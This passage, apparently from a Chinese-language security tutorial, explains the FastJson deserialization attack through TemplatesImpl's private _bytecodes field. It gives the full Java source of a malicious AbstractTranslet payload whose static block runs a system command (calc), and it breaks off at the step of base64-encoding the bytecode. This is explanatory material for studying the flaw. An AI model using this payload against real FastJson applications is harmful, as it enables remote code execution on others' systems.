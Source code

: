 这里这个\_bytecodes私有变量就是整个攻击设计的核心所在，虽然FastJson默认只能反序列化公有属性，但是可以在JSON串中指定\_bytecodes为我们恶意攻击类的字节码，同时调用`JSON.parseObject(json, Object.class, Feature.SupportNonPublicField)`来反序列化私有属性，那么_bytecodes就可以是任意指定代码

也就是说，如果事先定义好了Translet返回Class类的内容，并且在自定义的Translet类的构造函数中实现攻击代码，并且把攻击代码转化成字节码，传入TemplatesImpl的私有变量_bytecodes中，那么反序列化生成TemplatesImpl时就会使用我们自定义的字节码来生成Translet类，从而触发Translet构造函数中的攻击代码

首先构造一个恶意类，继承自AbstractTranslet类，因为时抽象类所以要实现其中的两个方法

```java
/*
 * Copyright (c) 2023. Lorem ipsum dolor sit amet, consectetur adipiscing elit.
 * Morbi non lorem porttitor neque feugiat blandit. Ut vitae ipsum eget quam lacinia accumsan.
 * Etiam sed turpis ac ipsum condimentum fringilla. Maecenas magna.
 * Proin dapibus sapien vel ante. Aliquam erat volutpat. Pellentesque sagittis ligula eget metus.
 * Vestibulum commodo. Ut rhoncus gravida arcu.
 */

package com.y5neko.sec.fastjson;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class TemplatesImplPayload extends AbstractTranslet {
    static {
        System.err.println("Success");
        try {
            String[] cmd = {"calc"};
            java.lang.Runtime.getRuntime().exec(cmd).waitFor();
        } catch ( Exception e ) {
            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM arg0, SerializationHandler[] arg1) throws TransletException {
        // anything
    }

    @Override
    public void transform(DOM arg0, DTMAxisIterator arg1, SerializationHandler arg2) throws TransletException {
        // anything
    }
}
```

编译成class文件后读取字节码，再传承base64





